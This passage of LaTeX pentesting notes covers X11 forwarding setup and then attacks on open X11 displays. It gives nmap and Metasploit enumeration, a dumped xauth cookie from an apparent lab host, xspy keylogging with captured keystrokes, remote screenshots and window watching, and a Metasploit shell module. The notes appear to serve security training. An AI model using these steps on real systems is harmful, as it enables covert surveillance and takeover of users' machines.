activates compression. Once the connection is established, any X11 application
can be started from the command line.

The \verb+-X+ option is explicitly used with the ssh command. It's possible to
make this behavour default with a \verb+ForwardX11 yes+ line in
\verb+/etc/ssh/ssh_config+, but this is NOT recommended. That setting
automatically opens the display to all remote systems clients are connected
with.


On the server (on witch client application are running) To enable X11
forwarding, the \verb+X11Forwarding+ setting needs to be changed in
\verb+/etc/ssh/sshd_config+. The settings require a restart of the SSH server.

Enabling X11 tunnels: \verb+/etc/ssh/sshd_config+
\begin{verbatim}
    X11Forwarding yes
    X11DisplayOffset 10  # this value is the default
    X11UseLocalhost yes  # this value is the default
\end{verbatim}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/x11/images/x11-forwarding-setup.png}
  \caption{X11 forwarding setup}
  \label{fig:x11-forwarding-setup}
\end{figure}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/x11/images/x11-forwarding-program.png}
  \caption{X11 forwarding programs}
  \label{fig:x11-forwarding-program}
\end{figure}

The SSH utility (when invoked with option -X or option ForwardX11) tunnels X11
traffic from remotely invoked clients to the local server. It does so by
setting at the remote site the \verb+$DISPLAY+  to point to a local TCP socket
opened there by sshd, which then tunnels the X11 communication back to ssh.
Sshd then also calls \verb+xauth+ to add at the remote site an
\verb+MIT-MAGIC-COOKIE-1+ string into \verb+.Xauthority+ there, which then
authorizes X11 clients there to access the ssh user's local X server. 


\subsubsection{Using XDMCP}



\section{Footprinting}

\begin{verbatim}
PORT       STATE   SERVICE
6000/tcp   open    X11
\end{verbatim}

\section{Enumeration}

on local:
\begin{verbatim}
$ who
ross tty7

$ w
 05:55:03 up  2:19,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               03:35    2:19m 13.83s  0.07s /usr/libexec/gnome-session-binary --systemd --session=gnome
\end{verbatim}

\begin{verbatim}
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
\end{verbatim}

\subsection{nmap additionals scripts}

\url{https://github.com/sensepost/x11-active-displays}

\section{authentication}
\subsection{xhost}

\subsection{xauth}

\begin{verbatim}
$ xauth -f .Xauthority 
Using authority file .Xauthority
xauth> list
squashed.htb/unix:0  MIT-MAGIC-COOKIE-1  04f643e487e99a3ebb2d6a1c5e27dc31
\end{verbatim}


\section{Verfy Connection}
\begin{verbatim}
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> 
#Ex: xwininfo -root -tree -display 10.5.5.12:0
\end{verbatim}

\section{Keyloggin}

\href{http://tools.kali.org/sniffingspoofing/xspy}{xspy}

\begin{verbatim}
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
\end{verbatim}


\section{Screenshots capturing}

\begin{verbatim}
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
\end{verbatim}

\section{Remote Desktop View}
\subsection{xrdp.py}

\begin{verbatim}
./xrdp.py <IP:0>
\end{verbatim}

See~\href{https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref}{Exploiting
X11 unauthenticated access}

\subsection{xwatchwin}
First we need to find the ID of the window using xwininfo
\begin{verbatim}
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

...SNIP...
\end{verbatim}


\begin{verbatim}
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
\end{verbatim}


\section{Get Shell}

\subsection{Metasploit}
\begin{verbatim}
msf> use exploit/unix/x11/x11_keyboard_exec
\end{verbatim}


\subsection{xrdpi.py}



